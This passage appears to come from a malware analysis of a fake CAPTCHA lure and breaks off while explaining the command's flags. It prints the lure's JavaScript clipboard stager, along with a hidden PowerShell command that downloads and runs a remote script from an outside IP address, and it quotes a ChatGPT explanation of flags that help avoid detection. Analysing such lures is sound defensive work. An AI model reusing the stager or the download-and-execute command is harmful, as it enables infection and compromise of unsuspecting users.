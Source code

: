 * Which will then run the `showVerifyWindow` function.

![alt text](../assets/imgs/pikaptcha/image-30.png)

* Which will then run the clipboard stager.

 ```
 // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
 ```




The malcious command uses the following flags:

` powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')" `

```
From ChatGPT:


-NoP (No Profile):

    This flag tells PowerShell to not load the user profile. By default, when PowerShell starts, it loads a profile script (like Microsoft.PowerShell_profile.ps1), which can contain user-specific configurations or settings. This flag prevents that from happening, which can help in avoiding detection or tracing.

-NonI (Non-Interactive):

    This flag tells PowerShell to not open an interactive session. It ensures the script runs in a non-interactive mode, which is useful when executing scripts remotely or through automated processes.

-W Hidden (Window Hidden):

```